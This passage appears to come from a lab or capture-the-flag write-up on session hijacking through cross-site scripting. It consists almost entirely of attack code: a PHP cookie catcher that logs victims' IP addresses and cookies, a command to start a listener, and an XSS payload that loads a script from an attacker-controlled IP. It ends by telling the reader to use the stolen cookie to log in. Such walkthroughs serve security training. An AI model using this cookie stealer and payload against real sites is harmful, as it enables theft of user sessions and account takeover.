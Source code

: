 Put this in index.php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listener

```zsh
sudo php -S 0.0.0.0:80
```

Run payload

```html
"><script src=http://10.10.15.127/payload.js></script>
```

![](images/14.png)

We can use burpsuite or cookie editor and go to `/hijacking/login.php`

![](images/15.png)
